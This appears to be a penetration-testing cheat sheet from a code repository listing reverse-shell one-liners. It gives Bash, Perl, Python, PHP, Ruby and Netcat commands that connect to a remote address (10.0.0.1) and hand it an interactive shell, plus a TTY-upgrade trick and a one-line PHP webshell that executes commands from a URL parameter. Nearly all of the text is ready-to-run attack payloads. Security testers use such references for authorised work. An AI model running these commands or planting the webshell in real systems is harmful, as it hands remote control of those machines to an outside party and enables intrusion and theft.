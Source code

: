 # Reverse Shells

## Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Perl

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Python Psuedo terminal

```
python -c "import pty;pty.spawn('/bin/bash')"
```

Use this on raw shells

## PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


```
<?php system($_GET['cmd']); ?>
```

Simple php webshell


## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

```
nc -e /bin/sh 10.0.0.1 1234
```

Reverse shell Linux

```
nc 10.10.0.1 1234 -e cmd.exe
```

Reverse shell Windows

## References:

* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - Pentestmonkeys
* [Netcat cheat sheet v1](http://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) - Sans Penetration Testing
* [Fixing a raw shell](https://nullsec.us/fixing-a-raw-shell/) - Nullsec
* [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) - Ropnop
